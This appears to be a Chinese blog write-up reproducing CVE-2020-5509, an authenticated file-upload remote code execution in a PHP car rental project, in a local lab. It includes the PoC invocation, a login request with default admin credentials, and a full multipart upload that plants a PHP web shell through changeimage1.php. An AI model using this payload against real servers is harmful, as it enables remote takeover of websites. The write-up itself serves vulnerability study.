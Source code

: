 ```yaml
---
title: CVE-2020-5509 Repetition
published: true
---
```

# [](#header-1)零.前言:
下午在Github上逛,找代码学习,突然瞥到CVE-2020-5509,看到了外国友人写的POC
原址:https://github.com/FULLSHADE/CVE-2020-5509-POC
于是搭建了环境,进行复现!
# [](#header-2)一.环境搭建:
搭建环境:
```
Windows server 2012 R2 阿帕奇 PHP7.5
```
官方源码:https://phpgurukul.com/car-rental-project-php-mysql-free-download/
搭建时需要新建一个数据库,然后将官方给的.sql数据文件导入到那个库里!
之后配置config.php信息,(要配置两个,一个是\includes\config.php,一个是\admin\config.php)
搭建完成图:
![](https://m4tir.github.io/assets/cve-2020-5509/1.png) 
之后就可以开始愉快地复现了!
# **二.复现过程:**

我们先用国外人写的poc打一下靶场:

```
python CVE-2020-5509.py 192.168.1.5(目标ip)
```

![](https://m4tir.github.io/assets/cve-2020-5509/2.png) 

```
[!] Failed to authenticate
```
**难道失败了?我重新看了一遍国外人写的poc,原来有处坑!**
![](https://m4tir.github.io/assets/cve-2020-5509/3.png) 
```
/carrentalproject/carrental/admin/changeimage1.php ##我们实际上是搭建在根目录的，不知道他这个/carrentalproject/carrental/目录是怎么来的，正是因为如此，才会获取不到tok值!
```
我们改一下poc!

![](https://m4tir.github.io/assets/cve-2020-5509/4.png) 

**ba把路径中的/carrentalproject/carrental去掉,再试试!**

![](https://m4tir.github.io/assets/cve-2020-5509/5.png) 

**ok，成功了!(但是它的终端有点奇怪,不管他)**

**国外友人的工具我用的不适手,于是便打算自己写一个图形化的工具!**

# **三.工具编写(.e):**

**话不多说，先构建界面,再导入一个精易模块:**

![](https://m4tir.github.io/assets/cve-2020-5509/6.png) 

**然后双击"Getshell"按钮，进入代码界面!**

**Getshell的第一步是要获取到Cookie，来进行鉴权文件上传!**

![](https://m4tir.github.io/assets/cve-2020-5509/7.png) 

```
curl -H "http://website/admin/index.php/" -D "username=admin&password=Test@12345&login="
```

**然后就通过鉴权文件上传来进行getshell**

![](https://m4tir.github.io/assets/cve-2020-5509/8.png) 

**上传包:**
```
--I am lonely
Content-Disposition: form-data; name="img1"; filename="test.php"
Content-Type: image/jpeg

<?php system($_GET["cmd"]); ?>
--I am lonely
Content-Disposition: form-data; name="update"

--I am lonely

```
**协议头:**
```
Content-Type: multipart/form-data; boundary="I am lonely"
```
然后尝试一下:

![](https://m4tir.github.io/assets/cve-2020-5509/9.png) 


**成功上传!**

**源码就不发了,因为所有代码就这几行:**

![](https://m4tir.github.io/assets/cve-2020-5509/10.png) 

**end！**

参考文章:
```
https://www.anquanke.com/vul/id/1894422
https://govanguard.com/threat-center/2020/01/13/car-rental-project-1-0-remote-code-execution/
http://www.cnnvd.org.cn/web/xxk/ldxqById.tag?CNNVD=CNNVD-202001-437
```
